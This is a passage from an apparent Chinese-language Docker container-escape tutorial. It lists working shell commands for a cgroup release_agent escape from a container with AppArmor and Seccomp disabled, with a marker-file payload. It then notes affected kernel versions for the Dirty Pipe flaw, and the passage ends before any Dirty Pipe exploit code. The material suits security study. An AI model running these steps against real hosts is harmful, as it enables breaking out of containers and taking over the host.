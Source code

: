 虽然SYS_ADMIN逃逸同样利用到release_agent这个特性，不过并不需要SYS_ADMIN的特权，**只需要**关闭Docker默认开启的两大安全特性：`AppArmor`和`Seccomp`就可以成功利用了

### 条件

 Linux Kernel >= 5
 Linux Kernel <= 5.15.26
 Docker >= 20.10.14

### 环境

```shell
docker run -ti --rm --security-opt apparmor=unconfined --security-opt seccomp=unconfined ubuntu bash
```

### 利用

```shell
# 通过unshare创建新的Namespace，隔离用户、映射root用户、隔离mount和cgroup并运行bash。
unshare -UrmC --propagation=unchanged bash
# 增加挂载cgroups文件系统操作
mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup
# 修改cgroup_dir对应目录路径
cgroup_dir=/tmp/cgroup
mkdir -p $cgroup_dir/boysec
echo 1 >$cgroup_dir/boysec/notify_on_release
host_overlay2_fs_dir=$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab)
echo '#!/bin/sh' > /script
echo "touch /hacked_by_boysec" >> /script
echo "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agent
chmod a+x /script

sh -c "echo \$\$ > $cgroup_dir/boysec/cgroup.procs"
```

## CVE-2022-0847(脏管道逃逸)

CVE-2022-0847-DirtyPipe-Exploit 是存在于 Linux 内核 5.8 及之后版本中的本地提权漏洞。

攻击者通过利用此漏洞，可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root

这个内核漏洞同样可用于docker逃逸

### 条件

高于 5.8 的 Linux 内核版本会受到影响

到目前为止，该漏洞已在以下 Linux 内核版本中**修复**：

 Linux Kernel 5.16.11以上

 Linux Kernel 5.15.26以上

 Linux Kernel 5.10.102以上
